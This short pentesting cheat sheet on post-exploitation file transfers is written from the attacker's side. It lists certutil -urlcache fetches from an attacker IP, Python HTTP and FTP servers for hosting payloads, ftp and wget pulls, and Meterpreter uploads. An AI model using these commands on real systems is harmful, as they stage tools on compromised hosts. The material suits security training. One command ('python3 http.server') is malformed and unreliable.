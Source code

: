 # Post Exploitation: File Transfers

## File Transfers Review

As an attacker, we will usually host a file with python on HTTP or FTP, and will grab it with certutil or FTP or just wget

By Windows:
**Certutil**
```
certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt
```

Linux/Windows
**HTTP**
```
python -m SimpleHTTPServer 80
python3 http.server
```

Browser
- Navigate directly to file

**FTP**
```
python -m pyftpdlib 21 (attacker machine)
ftp 10.10.10.10 (from Windows machine)
```

**Linux**
```
wget
```

Can also use **metasploit**: upload/download features on Meterpreter


